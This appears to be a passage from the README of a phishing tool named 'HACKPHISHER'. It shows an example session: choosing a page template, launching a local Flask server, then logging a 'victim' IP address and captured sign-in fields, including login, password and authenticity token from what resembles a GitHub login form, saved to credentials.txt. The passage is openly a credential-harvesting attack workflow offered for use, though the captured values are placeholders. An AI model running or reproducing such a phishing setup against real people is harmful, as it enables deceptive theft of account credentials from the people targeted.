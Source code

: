 
### Example 2: Start Phishing Campaign:

1. Start Phishing Attack: (Example)

```
Select an option: 1

Available templates:
1. test
2. test2

Select template: 1
[+] Starting localhost server on port 8080
 * Serving Flask app 'HACKPHISHER'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.                                                                                            
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8080
 * Running on http://10.0.0.99:8080
Press CTRL+C to quit
Press CTRL+C to quit
10.0.0.99 - - [DD/MMM/YYYY HH:MM:SS] "GET / HTTP/1.1" 200 -
[-] Victim IP Found !
[-] Victim's IP : 10.0.0.99
[-] Victim's IP (form):

[-] Login info Found !!

[-] Commit : Sign in
[-] Authenticity_token :                                                                                                 
[-] Add_account : 
[-] Login : test
[-] Password : test
[-] Webauthn-conditional :
[-] Javascript-support : 
[-] Webauthn-support :
[-] Webauthn-iuvpaa-support :
[-] Return_to :
[-] Allow_signup : 
[-] Client_id : 
[-] Integration : 
[-] Required_field_49a7 : 
[-] Timestamp :
[-] Timestamp_secret :

[-] Saved in : credentials.txt
```

---
